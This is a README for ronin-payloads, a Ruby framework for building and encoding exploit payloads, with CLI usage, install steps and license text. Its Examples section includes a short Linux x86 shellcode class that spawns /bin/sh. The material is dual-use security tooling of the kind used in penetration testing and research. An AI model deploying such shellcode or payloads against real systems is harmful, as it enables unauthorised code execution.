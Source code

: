 # ronin-payloads

[![CI](https://github.com/ronin-rb/ronin-payloads/actions/workflows/ruby.yml/badge.svg)](https://github.com/ronin-rb/ronin-payloads/actions/workflows/ruby.yml)
[![Code Climate](https://codeclimate.com/github/ronin-rb/ronin-payloads.svg)](https://codeclimate.com/github/ronin-rb/ronin-payloads)

* [Website](https://ronin-rb.dev/)
* [Source](https://github.com/ronin-rb/ronin-payloads)
* [Issues](https://github.com/ronin-rb/ronin-payloads/issues)
* [Documentation](https://ronin-rb.dev/docs/ronin-payloads/frames)
* [Slack](https://ronin-rb.slack.com) |
  [Discord](https://discord.gg/6WAb3PsVX9) |
  [Twitter](https://twitter.com/ronin_rb)

## Description

ronin-payloads is a Ruby micro-framework for writing and running exploit
payloads.

## Features

* Allows defining Payloads as plain-Ruby Classes.
* Provides base classes for a variety of common payloads:
  * {Ronin::Payloads::Payload}
  * {Ronin::Payloads::BinaryPayload}
  * {Ronin::Payloads::ASMPayload}
  * {Ronin::Payloads::Nops}
  * {Ronin::Payloads::Shellcode}
  * {Ronin::Payloads::BindShell}
* Provides classes for various payload-encoding techniques.
* Allows adding additional encoders to payloads.

## Synopsis

List available payloads:

```shell
$ ronin-payloads
```

Print information about a payload:

```shell
$ ronin-payloads list -n NAME -v
```

Build and output a payload:

```shell
$ ronin-payload build NAME
```

Build and output a raw un-escaped payload:

 ```shell
$ ronin-payload build NAME --raw
```

Load a payload from a file, then build and output it:

```shell
$ ronin-payload build -f FILE
```

Generate a boilerplate payload file, with some custom information:

```shell
$ ronin-payloads gen example_payload.rb \
                     --name Example --arch i686 --os Linux \
                     --authors Postmodern --description "This is an example."
```

**Note:** The list of available payload templates are:

* `binary_payload`
* `shellcode`
* `nops`

## Examples

Define a `/bin/sh` shellcode payload:

```ruby
require 'ronin/payloads/shellcode'

class BinShShellcode < Ronin::Payloads::Shellcode

  register 'shellcode-linux-x86-bin-sh'
  version '0.5'
  description <<~DESC
    Shellcode that spawns a local /bin/sh shell
  DESC

  targets_arch :x86
  targets_os   'Linux'

  build do
    shellcode do
      xor   eax, eax
      push  eax
      push  0x68732f2f
      push  0x6e69622f
      mov   esp, ebx
      push  eax
      push  ebx
      mov   esp, ecx
      xor   edx, edx
      int   0xb
    end
  end

end
```

Define a payload encoder class:

```ruby
require 'ronin/encoders/encoder'

class Base64Encoder < Ronin::Encoders::Encoder

  register 'text-base64'

  description <<~DESC
    Example base64 payload encoder
  DESC

  targets_arch :x86
  targets_os   'Linux'

  def encode(data)
    data.to_s.base64_encode
  end

end
```

## Requirements

* [Ruby] >= 3.0.0
* [ronin-support] ~> 1.0
* [ronin-asm] ~> 0.1
* [ronin-post_ex] ~> 0.1
* [ronin-core] ~> 0.1
* [ronin-repos] ~> 0.1

## Install

```shell
$ gem install ronin-payloads
```

### Gemfile

```ruby
gem 'ronin-payloads', '~> 0.1'
```

### gemspec

```ruby
gem.add_dependency 'ronin-payloads', '~> 0.1'
```

## Development

1. [Fork It!](https://github.com/ronin-rb/ronin-payloads/fork)
2. Clone It!
3. `cd ronin-payloads/`
4. `bundle install`
5. `git checkout -b my_feature`
6. Code It!
7. `bundle exec rake spec`
8. `git push origin my_feature`

## License

Copyright (c) 2007-2013 Hal Brodigan (postmodern.mod3 at gmail.com)

This file is part of ronin-payloads.

ronin-payloads is free software: you can redistribute it and/or modify
it under the terms of the GNU Lesser General Public License as published
by the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

ronin-payloads is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU Lesser General Public License for more details.

You should have received a copy of the GNU Lesser General Public License
along with ronin-payloads.  If not, see <https://www.gnu.org/licenses/>.

[Ruby]: https://www.ruby-lang.org
[ronin-support]: https://github.com/ronin-rb/ronin-support#readme
[ronin-asm]: https://github.com/ronin-rb/ronin-asm#readme
[ronin-core]: https://github.com/ronin-rb/ronin-core#readme
[ronin-repos]: https://github.com/ronin-rb/ronin-repos#readme
[ronin-post_ex]: https://github.com/ronin-rb/ronin-post_ex#readme
